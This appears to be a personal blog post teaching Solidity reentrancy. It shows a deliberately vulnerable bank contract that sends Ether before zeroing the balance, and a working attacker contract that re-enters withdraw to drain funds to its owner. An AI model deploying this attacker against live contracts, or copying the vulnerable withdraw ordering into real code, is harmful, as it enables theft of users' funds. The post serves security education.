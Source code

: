 # My Solidity Learning Journey: Understanding Reentrancy Attacks

Tags: #solidity #smart-contracts #security #reentrancy #defi #blockchain #cryptocurrency #programming #learning

## Introduction

As I approach my **one-year anniversary working in the crypto industry**, I've been reflecting on the critical importance of security in decentralized finance (DeFi) and smart contracts. This reflection has been intensified by the recent **Bybit hack**, where North Korean hackers, known as the Lazarus Group, stole over **$1.5 billion** in Ethereum from the Dubai-based exchange, marking one of the largest cryptocurrency thefts to date.

This incident underscores that some of the most devastating hacks result from **simple programming mistakes**. One such vulnerability that has plagued Solidity developers is the **reentrancy attack**.

To document my learning journey transparently, I utilized ChatGPT to generate Solidity contracts and explanations, refining them through iterative feedback until I felt they were suitable for inclusion in my learning journal. If you are new to Solidity, I will walk through **each line of code** to ensure a complete understanding of how the contracts work.

---

## Learning Solidity by Building a Simple Bank

To grasp Solidity fundamentals, I explored a **simple bank contract** allowing users to **deposit and withdraw Ether**. Here's the initial version generated:

```solidity
// SPDX-License-Identifier: MIT
// Specifies the license type for the contract, making it easier for others to reuse legally.
pragma solidity ^0.8.0; 
// Declares that the contract is written in Solidity version 0.8.0 or higher.

// 'contract' is a Solidity keyword used to define a smart contract.
// A contract is a self-contained unit of code and data that runs on the blockchain.
contract SimpleBank {
    // Mapping to store user balances. Each address is mapped to an unsigned integer (uint256) representing its balance.
    mapping(address => uint256) public balances;

    // Function to deposit Ether into the contract.
    // The 'payable' modifier allows this function to receive Ether when called.
    function deposit() public payable {
        // msg.sender refers to the account that called this function.
        // msg.value is the amount of Ether sent with the transaction.
        balances[msg.sender] += msg.value;
    }

    // Function to withdraw funds from the contract.
    function withdraw() public {
        // Retrieve the balance of the caller.
        uint256 amount = balances[msg.sender];
        require(amount > 0, "No funds to withdraw"); // Ensure the caller has funds.
        
        // ⚠️ Vulnerability: The external call is made before updating the balance.
        // Transfers Ether to the caller using the `.call` method.
        // `.call` is a low-level Solidity function that sends Ether and allows execution of fallback functions.
        // It returns a boolean indicating success or failure, but does not revert on failure.
        // The empty string "" is passed as call data, meaning no function is explicitly called.
        (bool success, ) = msg.sender.call{value: amount}(""); 
        require(success, "Transfer failed");

        // ❌ Too late! The balance should have been updated before sending funds.
        balances[msg.sender] = 0;
    }
}
```

### How This Opens a Window for Reentrancy

1. **An external call is made before updating the balance**:
   - When `msg.sender.call{value: amount}("")` executes, it sends Ether to `msg.sender`.
   - If `msg.sender` is an externally owned account (EOA, a normal wallet), the transaction completes normally.
   - However, if `msg.sender` is a **smart contract**, Solidity automatically triggers a special function in that contract, known as a **fallback function**.

2. **What is a fallback function?**
   - A fallback function is a special function in a Solidity smart contract that executes when the contract **receives Ether without any specific function being called**.
   - It is often used to handle direct transfers of Ether and can also execute arbitrary logic when triggered.
   - If a contract has a function named `receive()` or a generic `fallback()` function, that function will **run automatically** when Ether is sent to the contract.

3. **A malicious contract can exploit this behavior**:
   - Instead of just receiving Ether, a contract receiving funds **can execute additional code** in its fallback function.
   - If this malicious contract calls `withdraw()` again inside its fallback function, it can withdraw multiple times in a loop **before the balance updates**.

---

## Understanding the Reentrancy Attack

### The Attacker's Malicious Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// 'interface' is a Solidity keyword used to define a contract's external functions without implementation.
// Interfaces allow interaction with other contracts by specifying the function signatures they expose.
interface IVulnerable {
    function deposit() external payable;
    function withdraw() external;
}

// Attack contract designed to exploit the vulnerable contract.
contract ReentrancyAttacker {
    IVulnerable public target; // Stores the address of the vulnerable contract.
    address public owner; // Stores the attacker's address.

    constructor(address _target) {
        target = IVulnerable(_target); // Assigns the target contract.
        owner = msg.sender; // Sets the attacker's address.
    }

    function attack() external payable {
        require(msg.value >= 1 ether, "Send at least 1 ETH");
        target.deposit{value: msg.value}();
        target.withdraw(); // Starts the reentrancy process.
    }

    // The fallback function is triggered when this contract receives Ether.
    receive() external payable {
        if (address(target).balance >= 1 ether) {
            target.withdraw(); // 🚨 Calls withdraw recursively before balance updates.
        } else {
            payable(owner).transfer(address(this).balance); // Sends stolen funds to the attacker.
        }
    }
}
```

---

## Summary and Conclusion

This deep dive into reentrancy attacks has shown how a simple **ordering mistake** in Solidity code can lead to a devastating vulnerability. 

### Key Takeaways:
- **Reentrancy occurs when an external call is made before updating internal state**, allowing a malicious contract to re-enter and execute unintended function calls.
- **Fallback functions allow contracts to execute arbitrary logic when receiving Ether**, which attackers can exploit to repeatedly drain a vulnerable contract.
- **The Checks-Effects-Interactions pattern mitigates reentrancy attacks by ensuring that state updates happen before external calls.**
- **Using OpenZeppelin's `ReentrancyGuard` is another effective way to prevent reentrant calls.**

Understanding and mitigating vulnerabilities like **reentrancy** is crucial for writing secure Solidity contracts. **Security must be an integral part of smart contract development, not an afterthought.**

### Next Steps

Following this exploration of reentrancy attacks, I've expanded my learning journey to include broader blockchain applications and ethical finance solutions. The security principles learned from studying Solidity vulnerabilities have provided valuable context for understanding the importance of robust design in blockchain systems.

Future topics I plan to explore include:
1. Integer overflows and other Solidity security vulnerabilities
2. Front-running and MEV (Miner Extractable Value) in DeFi
3. Advanced smart contract security patterns
4. Comparative analysis of different blockchain security approaches

